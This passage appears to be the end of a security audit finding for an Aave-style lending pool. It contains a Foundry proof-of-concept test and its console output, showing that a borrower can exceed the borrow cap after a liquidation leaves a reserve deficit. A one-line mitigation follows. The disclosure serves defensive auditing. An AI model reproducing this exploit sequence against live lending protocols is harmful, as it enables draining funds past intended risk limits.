 ```solidity
      (
        uint totalCollateralInBaseCurrency,
        uint totalDebtInBaseCurrency,
        ,
        ,
        ,
        uint healthFactor
      ) = contracts.poolProxy.getUserAccountData(params.user);
      console.log("totalCollateralInBaseCurrency, totalDebtInBaseCurrency, healthFactor =", totalCollateralInBaseCurrency, totalDebtInBaseCurrency, healthFactor);
      console.log("USDX Deficit: ", contracts.poolProxy.getReserveDeficit(tokenList.usdx));

    }

    // Step 7: Alice tries to borrow 11000e6 USDX again, and succeeds.
    vm.startPrank(alice);
    contracts.poolProxy.supply(tokenList.wbtc, 1e8, alice, 0);
    contracts.poolProxy.borrow(tokenList.usdx, borrowAmount, 2, 0, alice);
    vm.stopPrank();
  }
```

Console output is the following. We can see during the end, with a deficit of 3285e6 USDX, Alice is still able to borrow 11000e6 USDX even though the borrow cap was 11000. The means the total debt exposure exceeded the borrow cap.

```bash
Ran 1 test for tests/protocol/pool/Pool.Liquidations.t.sol:PoolLiquidationTests
[PASS] test_poc_borrow_cap() (gas: 1054433)
Logs:
  > Initial price:
  wbtc price = 2700000000000
  usdx price = 100000000
  > Current price:
  wbtc price = 1620000000000
  usdx price = 100000000
  > Before liquidation:
  totalCollateralInBaseCurrency, totalDebtInBaseCurrency, healthFactor = 810000000000 1100000000000 633272727272727273
  > After liquidation
  totalCollateralInBaseCurrency, totalDebtInBaseCurrency, healthFactor = 0 0 115792089237316195423570985008687907853269984665640564039457584007913129639935
  USDX Deficit:  3285714286
```

### Mitigation

Always consider `reserve.deficit` when calculating borrow caps.